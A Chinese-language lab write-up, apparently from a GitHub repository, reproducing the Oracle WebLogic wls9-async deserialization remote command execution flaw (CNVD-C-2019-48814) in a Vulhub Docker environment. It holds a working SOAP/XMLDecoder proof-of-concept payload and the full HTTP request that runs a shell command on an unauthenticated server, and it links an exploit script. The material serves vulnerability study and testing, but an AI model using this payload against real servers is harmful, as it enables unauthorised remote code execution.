



# CNVD-C-2019-48814


## 0x01 搭建漏洞环境

*漏洞介绍*

2019年4月17日，国家信息安全漏洞共享平台（CNVD）收录了由中国民生银行股份有限公司报送的Oracle WebLogic wls9-async反序列化远程命令执行漏洞（CNVD-C-2019-48814）。攻击者利用该漏洞，可在未授权的情况下远程执行命令。

*影响版本*

Oracle WebLogic Server10.3.6.0.0
Oracle WebLogic Server12.1.3.0.0
Oracle WebLogic Server12.2.1.1.0
Oracle WebLogic Server12.2.1.2.0

利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

我们可以先进入容器内部
```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

POC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/sh</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

burp
```
GET / HTTP/1.1
Host: 172.16.200.221:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 814


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

发送数据包 ，返回202 ，到服务器查看发现命令已经执行成功





复现成功

有人会认为没回显，可以使用dnslog，也可以写到文件里。


简单的写下exp

[webLogic-wls9-exp.py](https://github.com/zhengjim/loophole/blob/master/CNVD-C-2019-48814/webLogic-wls9-exp.py)

